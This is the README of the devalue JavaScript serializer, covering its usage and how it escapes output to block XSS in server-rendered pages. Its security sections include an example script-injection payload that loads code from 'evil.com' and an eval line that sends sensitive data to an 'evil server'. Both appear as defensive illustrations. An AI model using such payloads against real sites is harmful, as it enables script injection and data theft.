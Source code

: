 # devalue

Like `JSON.stringify`, but handles

- cyclical references (`obj.self = obj`)
- repeated references (`[value, value]`)
- `undefined`, `Infinity`, `NaN`, `-0`
- regular expressions
- dates
- `Map` and `Set`
- `BigInt`

Try it out on [runkit.com](https://npm.runkit.com/devalue).

## Goals:

- Performance
- Security (see [XSS mitigation](#xss-mitigation))
- Compact output

## Non-goals:

- Human-readable output
- Stringifying functions or non-POJOs

## Usage

```js
import { devalue } from 'devalue';

let obj = { a: 1, b: 2 };
obj.c = 3;

devalue(obj); // '{a:1,b:2,c:3}'

obj.self = obj;
devalue(obj); // '(function(a){a.a=1;a.b=2;a.c=3;a.self=a;return a}({}))'
```

If `devalue` encounters a function or a non-POJO, it will throw an error.

## XSS mitigation

Say you're server-rendering a page and want to serialize some state, which could include user input. `JSON.stringify` doesn't protect against XSS attacks:

```js
const state = {
  userinput: `</script><script src='https://evil.com/mwahaha.js'>`
};

const template = `
<script>
  // NEVER DO THIS
  var preloaded = ${JSON.stringify(state)};
</script>`;
```

Which would result in this:

```html
<script>
  // NEVER DO THIS
  var preloaded = {"userinput":"
</script>
<script src="https://evil.com/mwahaha.js">
  "};
</script>
```

Using `devalue`, we're protected against that attack:

```js
const template = `
<script>
  var preloaded = ${devalue(state)};
</script>`;
```

```html
<script>
  var preloaded = {
    userinput:
      "\\u003C\\u002Fscript\\u003E\\u003Cscript src='https:\\u002F\\u002Fevil.com\\u002Fmwahaha.js'\\u003E"
  };
</script>
```

This, along with the fact that `devalue` bails on functions and non-POJOs, stops attackers from executing arbitrary code. Strings generated by `devalue` can be safely deserialized with `eval` or `new Function`:

```js
const value = (0, eval)('(' + str + ')');
```

## Other security considerations

While `devalue` prevents the XSS vulnerability shown above, meaning you can use it to send data from server to client, **you should not send user data from client to server** using the same method. Since it has to be evaluated, an attacker that successfully submitted data that bypassed `devalue` would have access to your system.

When using `eval`, ensure that you call it _indirectly_ so that the evaluated code doesn't have access to the surrounding scope:

```js
{
  const sensitiveData = 'Setec Astronomy';
  eval('sendToEvilServer(sensitiveData)'); // pwned :(
  (0, eval)('sendToEvilServer(sensitiveData)'); // nice try, evildoer!
}
```

Using `new Function(code)` is akin to using indirect eval.

## See also

- [lave](https://github.com/jed/lave) by Jed Schmidt
- [arson](https://github.com/benjamn/arson) by Ben Newman
- [tosource](https://github.com/marcello3d/node-tosource) by Marcello Bastéa-Forte
- [serialize-javascript](https://github.com/yahoo/serialize-javascript) by Eric Ferraiuolo
- [jsesc](https://github.com/mathiasbynens/jsesc) by Mathias Bynens
- [superjson](https://github.com/blitz-js/superjson) by Blitz

## License

[MIT](LICENSE)

